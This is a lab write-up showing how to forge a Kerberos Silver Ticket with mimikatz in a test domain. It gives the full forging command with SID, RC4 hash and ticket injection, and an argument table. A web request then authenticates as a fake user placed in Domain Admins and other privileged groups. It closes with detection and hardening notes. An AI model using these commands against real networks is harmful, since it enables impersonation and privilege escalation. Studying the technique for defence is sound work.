 ```yaml
---
description: Credential Access
---
```


# Kerberos: Silver Tickets

This lab looks at the technique of forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges from the perspective of a service the TGS was cracked for.

This lab builds on the explorations in [T1208: Kerberoasting](t1208-kerberoasting.md) where a TGS ticket got cracked.

## Execution

I will be using mimikatz to create a Kerberos Silver Ticket - forging/rewriting the cracked ticket with some new details that benefit me as an attacker.&#x20;

Below is a table with values supplied to mimikatz explained and the command itself:

| Argument                                            | Notes                                                                                             |
| --------------------------------------------------- | ------------------------------------------------------------------------------------------------- |
| /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 | SID of the current user who is forging the ticket. Retrieved with `whoami /user`                  |
| /target:dc-mantvydas.offense.local                  | server hosting the attacked service for which the TGS ticket was cracked                          |
| /service:http                                       | service type being attacked                                                                       |
| /rc4:a87f3a337d73085c45f9416be5787d86               | NTLM hash of the password the TGS ticket was encrypted with. `Passw0rd` in our case               |
| /user:beningnadmin                                  | Forging the user name. This is the user name that will appear in the windows security logs - fun. |
| /id:1155                                            | Forging user's RID - fun                                                                          |
| /ptt                                                | Instructs mimikatz to inject the forged ticket to memory to make it usable immediately            |

Getting our user's SID as explained in the first step in the above table:

![Getting a user's SID](../../.gitbook/assets/silver-tickets-whoami.png)

Issuing the final mimikatz command to create our forged (silver) ticket:

{% code title="attacker@victim" %}
```csharp
mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```
{% endcode %}

Checking available tickets in memory with `klist` - note how the ticket shows our forged username `benignadmin` and a forged user id:

![](<../../.gitbook/assets/silver-tickets-generated-ticket (2).png>)

Note in the above mimikatz window the `Group IDs` which our fake user `benignadmin` is now a member of due to the forged ticket:

| GID | Group Name                  |
| --- | --------------------------- |
| 512 | Domain Admins               |
| 513 | Domain Users                |
| 518 | Schema Admins               |
| 519 | Enterprise Admins           |
| 520 | Group Policy Creator Owners |

![](../../.gitbook/assets/silver-tickets-groups.png)

Initiating a request to the attacked service with a TGS ticket - note that the authentication is successfull:

{% code title="attacker@victim" %}
```csharp
Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://dc-mantvydas.offense.local
```
{% endcode %}

![](../../.gitbook/assets/silver-tickets-httprequest.png)

## Observations

Note a network logon from `benignadmin` as well as forged RIDs:

![](<../../.gitbook/assets/silver-tickets-4624 (1).png>)

It is better not to use user accounts for running services on them, but if you do, make sure to use really strong passwords! Computer accounts generate long and complex passwords and they change frequently, so they are better suited for running services on. Better yet, follow good practices such as using [Group Managed Service Accounts](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/hh831782\(v=ws.11\)) for running more secure services.

## References

{% embed url="https://blog.stealthbits.com/impersonating-service-accounts-with-silver-tickets" %}

{% embed url="https://adsecurity.org/?p=2011" %}
